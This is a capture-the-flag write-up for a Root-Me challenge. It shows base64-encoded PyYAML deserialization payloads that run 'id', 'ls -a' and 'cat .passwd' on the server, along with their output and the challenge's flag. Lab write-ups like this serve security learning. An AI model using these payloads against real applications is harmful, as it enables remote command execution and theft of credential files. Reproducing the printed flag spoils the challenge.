



Here we can see we access 
```
http://challenge01.root-me.org:59071/eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg
```
And recieve the message:
```
We are currently initializing our new site !
```

However, when we base64 decoded this string `eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg` we get: `yaml: We are currently initializing our new site ! `, Okay, let's try inject our payload, for example: `yaml : Injected`:
```
eWFtbCA6IEluamVjdGVk
```


Okay, now I went to [PayloadAllTheThings Insecure Deserialization](https://swisskyrepo.github.io/PayloadsAllTheThings/Insecure%20Deserialization/Python/#pyyaml), and we can see this payload:
```
!!python/object/new:subprocess.check_output [["id"]]
```

Let's try giving it:
```
eWFtbDogISFweXRob24vb2JqZWN0L25ldzpzdWJwcm9jZXNzLmNoZWNrX291dHB1dCBbWyJpZCJdXQ==
```
Okay, it's working


Now, let's find the flag, first `ls -a`:
```
!!python/object/new:subprocess.check_output [["ls","-a"]]
```
and we got:
```
b'.\n..\nch71.py\nch71.tar.gz\n._firewall\n.git\n.gitignore\n._nginx.server-level.inc\n.passwd\n._perms\nrequirements.txt\n._run\nstatic\ntemplates\nyaml\nyaml_3.13.tar.gz\n'
```
Okay, let's `cat .passwd`
```
yaml: !!python/object/new:subprocess.check_output [["cat",".passwd"]]
```


**Flag:** ***`561385a008727f860eda1afb7f8eba76`***
